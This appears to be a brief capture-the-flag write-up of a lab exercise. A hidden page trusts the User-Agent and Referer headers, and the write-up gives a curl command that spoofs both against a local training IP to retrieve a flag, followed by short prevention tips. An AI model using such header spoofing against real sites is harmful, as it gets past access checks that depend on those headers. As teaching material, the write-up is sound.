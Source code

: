 # Vulnerability

User agent strings are pieces of information sent by web browsers to identify themselves to web servers.

# Identification

# Resolve

curl -A "ft_bornToSec" -e "https://www.nsa.gov/" "http://192.168.1.31/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" | grep "flag"

# Prevent

- Implement strict input validation for user agent strings
- Sanitize user agent data before using it in any operations
- Avoid directly using raw user agent input in critical functions

# Resources

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent
